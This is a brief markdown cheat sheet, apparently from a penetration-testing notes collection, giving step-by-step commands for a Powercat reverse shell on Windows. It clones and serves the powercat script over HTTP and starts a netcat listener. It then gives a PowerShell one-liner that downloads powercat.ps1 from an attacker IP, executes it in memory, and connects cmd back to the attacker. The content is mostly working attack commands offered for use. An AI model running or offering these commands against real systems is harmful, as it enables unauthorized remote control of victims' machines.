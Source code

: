# Powercat: Reverse Shell

1. Download [Powercat](https://github.com/besimorhino/powercat.git)

        git clone https://github.com/besimorhino/powercat.git
        python -m SimpleHTTPServer 4444

2. Start a listener on attacker machine

        nc -lvp 1234

3. Execute following command on the remote machine to obtain a reverse shell
   
        powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://<ATTACKER_IP_ADDRESS>:4444/powercat.ps1');powercat -c <ATTACKER_IP_ADDRESS> -p 1234 -e cmd"

## References

* https://github.com/besimorhino/powercat.git
* https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/